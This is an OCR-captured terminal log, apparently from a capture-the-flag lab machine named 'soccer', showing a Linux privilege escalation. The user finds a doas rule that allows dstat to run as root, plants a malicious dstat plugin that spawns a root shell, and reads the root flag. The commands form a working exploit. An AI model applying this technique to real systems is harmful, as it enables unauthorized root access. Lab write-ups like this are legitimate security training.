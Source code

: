 /snap/core20/1695/usr/bin/chfn
/snap/core20/1695/usr/bin/chsh
/snap/core20/1695/usr/bin/gpasswd
/snap/core20/1695/usr/bin/mount
/snap/core20/1695/usr/bin/newgrp
/snap/core20/1695/usr/bin/passwd
/snap/core20/1695/usr/bin/su
/snap/core20/1695/usr/bin/sudo
/snap/core20/1695/usr/bin/umount
/snap/core20/1695/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1695/usr/lib/openssh/ssh-keysign
player@soccer:~$ 



player@soccer:~$ find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
player@soccer:~$ 



player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat


https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-dstat-privilege-escalation/


player@soccer:~$ vi /usr/local/share/dstat/xabaras.py



import os
os.setuid(0)
os.system("/bin/bash")
~                                                                                                                                                                                                            
     



player@soccer:~$ /usr/local/bin/doas -u root /usr/bin/dstat --xabaras
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
root@soccer:/home/player# if
> 
root@soccer:/home/player# id
uid=0(root) gid=0(root) groups=0(root)
root@soccer:/home/player# cat /root/root.txt 
b35fe80d70d15e0f4334b1ddb8d7060e
root@soccer:/home/player# 









